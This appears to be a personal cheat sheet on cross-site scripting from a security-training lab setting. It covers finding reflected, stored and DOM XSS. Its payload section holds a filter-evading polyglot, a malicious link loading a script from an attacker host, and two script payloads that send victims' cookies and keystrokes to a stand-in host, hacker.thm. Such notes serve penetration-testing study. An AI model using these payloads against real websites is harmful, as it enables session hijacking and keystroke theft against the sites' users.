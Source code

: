 #### Methodology
##### XSS methodology:
```
Find where input gets reflected
Check for XSS types
Escape HTML/JS (use polyglot)
Use payloads
```

##### Reflected XSS
Look for:
```cpp
Parameters in URL query: http://vulnerable.thm/forum?popup=<script>alert('XSS');</script>
URL file path: ?
```
Exploitation:
Create malicious link: `http://vulnerable.thm/forum?popup=<script src=attacker.htb/exploit.js>`

##### Stored XSS
Look for:
```cpp
Unsanitized comment: payload in fields
Websile listings: payload in fields
```
Note: Attempt at uncommon places (age input with a dropdown for an integer etc)
Exploitation: 
Create hidden JS, send malicous link

##### DOM XSS
Look for accessible variables in the JS code
Check if variables are passed to unsafe methods such as `eval()`


##### Payloads
To bypass `alert` blocks, use `prompt` or `confirm`
```C++
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
// Polyglot, escapes a lot.

<script>alert('XSS');</script> // Proof of concept, sometimes blocked
"><script>alert('XSS');</script> // Escape HTML
</script><script>alert('XSS');</script> // Escape javascript functions

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script> // Steal cookies such as PHPSESSID in base64, sent to hacker.thm 
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script> // Log keys, keys sent to hacker.thm

```